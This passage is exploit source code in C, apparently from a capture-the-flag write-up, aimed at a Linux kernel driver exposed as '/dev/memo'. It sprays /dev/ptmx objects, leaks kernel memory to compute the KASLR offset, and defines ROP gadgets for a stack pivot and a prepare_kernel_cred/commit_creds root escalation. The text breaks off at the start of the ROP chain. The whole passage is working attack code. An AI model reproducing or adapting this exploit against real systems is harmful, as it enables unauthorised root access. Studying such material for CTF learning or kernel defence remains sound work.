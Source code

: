```c

	DEBUG("[*] Spraying pool\n");
	for(int i = 0; i < 0x10; i++)
		open("/dev/ptmx", O_RDWR);

	DEBUG("[*] Opening objects\n");
	if(0 > (fdm = open("/dev/memo", O_RDWR))) {
		DEBUG("[!] Could not open memo\n");
		exit(1);
	}

	if(0 > (fdp = open("/dev/ptmx", O_RDWR))) {
		DEBUG("[!] Could not open ptmx\n");
		exit(1);
	}


	DEBUG("[*] Leak memory\n");
	lseek(fdm, 0x3FF, SEEK_SET);
	read(fdm, buffer, sizeof(buffer));
	//write(1, buffer + 1, sizeof(buffer));

	void *pool = ((void**)(buffer + 1))[7] - 0x38 - 0x400;
	void *base = ((void**)(buffer + 1))[3]; // rodata 0xffffffff81e65900
	long  offset = (long)base - 0xffffffff81e65900;


	/* ghetto memset */
	for(int i = 0; i < sizeof(fake); i++)
		fake[i] = 0;


#define PIVOT  (void*)(0xffffffff815a98f4llu + offset) // push rcx, pop... rsp
#define POPRSP (void*)(0xffffffff818aaa78llu + offset) // pop rsp
#define POPRDI (void*)(0xffffffff8195c042llu + offset) // pop rdi
#define POPRSI (void*)(0xffffffff81962889llu + offset) // pop rsi
#define POPRDX (void*)(0xffffffff8173208dllu + offset) // pop rdx
#define POPRCX (void*)(0xffffffff810631d2llu + offset) // pop rcx
#define MOVRDI (void*)(0xffffffff81019dcbllu + offset) // mov rdi, rax ; rep movs

#define PKC    (void*)(0xffffffff8107bb50llu + offset) // prepare_kernel_cred
#define CK     (void*)(0xffffffff8107b8b0llu + offset) // commit_creds
#define IRET   (void*)(0xffffffff81a00a45llu + offset) // return to user land

#define LOOP   (void*)(0xffffffff81000218llu + offset) // infinite loop
#define RET    (void*)(0xffffffff8165f10dllu + offset) // ret for bp

	/* offset */
	int x = 50;

	for(int i = 0; i < x; i++)
		((void**)fake)[i] = 0xdeadbeef0000;

	/* Prepare the structure with close */
	((void**)(buffer + 1))[3] = pool;
	((void**)fake)[4] = PIVOT; // close

	/* second-stage pivot */
	((void**)(buffer + 1))[0x40 + 1] = POPRSP;
	((void**)(buffer + 1))[0x40 + 2] = pool + 8 * x;

	/* ROP chain */

```